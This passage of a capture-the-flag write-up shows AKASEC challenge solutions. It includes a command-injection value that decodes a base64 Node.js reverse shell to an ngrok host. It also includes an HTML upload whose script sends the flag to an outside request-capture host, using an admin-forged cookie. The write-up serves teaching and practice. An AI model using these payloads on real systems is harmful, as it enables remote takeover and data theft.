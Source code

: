 ```
  { "raw":"l3mnt2010 && echo KGZ1bmN0aW9uKCl7CiAgICB2YXIgbmV0ID0gcmVxdWlyZSgibmV0IiksCiAgICAgICAgY3AgPSByZXF1aXJlKCJjaGlsZF9wcm9jZXNzIiksCiAgICAgICAgc2ggPSBjcC5zcGF3bigiL2Jpbi9zaCIsIFtdKTsKICAgIHZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwogICAgY2xpZW50LmNvbm5lY3QoMTYwODQsICIwLnRjcC5hcC5uZ3Jvay5pbyIsIGZ1bmN0aW9uKCl7CiAgICAgICAgY2xpZW50LnBpcGUoc2guc3RkaW4pOwogICAgICAgIHNoLnN0ZG91dC5waXBlKGNsaWVudCk7CiAgICAgICAgc2guc3RkZXJyLnBpcGUoY2xpZW50KTsKICAgIH0pOwogICAgcmV0dXJuIC9hLzsKfSkoKTs= | base64 -d | bun run -"
  }
}
```

![image](https://hackmd.io/_uploads/rJC7LrDH0.png)


Flag : `AKASEC{w311_17_41n7_7h47_2u57yyy_4f732_411}`


## Upload

![image](https://hackmd.io/_uploads/B1LlcBwHR.png)

- Khi vào views nó sẽ không mở file của nó luôn mà phải truy cập vào uploads/your-file.html để kích hoạt html

![image](https://hackmd.io/_uploads/r1xQrsBB0.png)

```
POST /upload HTTP/1.1
Host: 172.206.89.197:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------140731221425871396061686687964
Content-Length: 354
Origin: http://172.206.89.197:9000
Connection: close
Referer: http://172.206.89.197:9000/upload
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl90eXBlIjoiYWRtaW4iLCJleHAiOjEwMDAwMDAwMDAwfQ.MG6gg_c7eZ-aMS2cIs-SasS8w9Ixvkzi2v_-fS7KfOo; connect.sid=s%3A6uYUS3A21Lg0Xyq2MJICGe8I6_5nI7Vk.ZJeBUta0K%2FT9OMLM6QcpaC%2BVngOX2napDlFnrKxU43Q
Upgrade-Insecure-Requests: 1
Priority: u=1

-----------------------------140731221425871396061686687964
Content-Disposition: form-data; name="file"; filename="p.html"
Content-Type: application/pdf

<script>fetch('/flag').then(e=>e.text()).then(e=>{fetch('http://wuzz9syo.requestrepo.com', { method : 'post', body: e })})</script>
-----------------------------140731221425871396061686687964--

```
Flag : `AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}`
